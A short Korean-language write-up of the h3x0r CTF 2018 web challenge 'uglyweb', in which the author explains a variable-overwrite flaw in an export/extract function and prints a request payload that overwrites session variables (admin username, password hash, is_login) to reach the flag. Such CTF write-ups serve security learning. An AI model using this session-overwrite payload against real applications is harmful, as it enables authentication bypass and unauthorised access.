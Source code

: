 # h3x0r CTF (2018)

## Team <i>BAOBOB N2WBEE</i>

<br>

![Alt text](https://raw.githubusercontent.com/Circler-K/writeup/master/CTF/h3x0r2018/image/Ranking.png)  

<br>

- 일단 저는 웹 한문제 풀었습니다.
- 문제하나 백업해둬서 로컬서버에서 하나 더 풀었습니다.
- 7등

## uglyweb

- 소스코드파일을 준다.
- 코드를 잘 보면 export함수가 있는데 여기서 변수를 덮어쓸수 있는 취약점이 발생한다.
- 변수를 덮어쓰면 된다
### payload

> do=view_flag&_SESSION[username]=admin&_SESSION[password]=eb954764a69ba26bb88997c66d88a8834012413abfae5891b9a0b0590e1428e7&confirm_password=akskdhfld&msg=123&_SESSION[is_login]=1

<br>

- 세션변수중에 is_login 변수를 까먹고 안적어서 계속 로그이 초기화되는 상황이 있었다.
